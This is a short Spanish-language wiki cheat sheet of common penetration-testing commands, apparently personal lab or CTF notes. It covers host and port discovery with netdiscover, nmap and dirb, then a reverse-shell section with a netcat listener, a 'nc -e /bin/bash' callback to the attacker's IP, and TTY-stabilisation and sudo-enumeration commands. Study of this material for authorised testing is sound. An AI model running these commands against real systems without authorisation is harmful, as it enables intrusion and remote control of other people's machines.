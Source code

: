 ```yaml
---
title: CheatSheet
description: Cheatsheet de todos los comandos usados en Hacking
published: true
date: 2024-11-11T14:26:03.405Z
tags: 
editor: markdown
dateCreated: 2024-11-11T14:26:03.405Z
---
```


# Comandos
Esta sección está dedicada a comandos usados de forma común en hacking.
## Detección
Para la detección de IPs, podremos hacer uso de varios comandos como:
```bash
sudo netdiscover -r (Rango de IP)
```
La detección de puertos, podemos hacer uso de NMap o Nessus. Con NMap seria el siguiente comando:
```bash
sudo nmap -sC -sV (IP)
```
Para la detección de subdirectorios podemos hacer uso de:
```bash
sudo dirb (Enlace)
```
## Securizar shell reversa
Una shell reversa, consiste en una shell ya segurizada que usaremos para poder escribir comandos, primero deberemos poner en nuestra máquina:
```bash
nc -lnvp (Puerto)
```

```bash
sudo nohup nc -e /bin/bash (Nuestra IP) &
```

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

```bash
nc -lnvp (Puerto)
```

```bash
stty raw -echo;fg
```
```bash
export TERM=xterm
```

gtfobins.github.io

```bash
sudo openvpn (archivovpn)
```

```bash
sudo -l
```
```bash
sudo strings (Fichero)
```
```bash
sudo netdiscover -r
```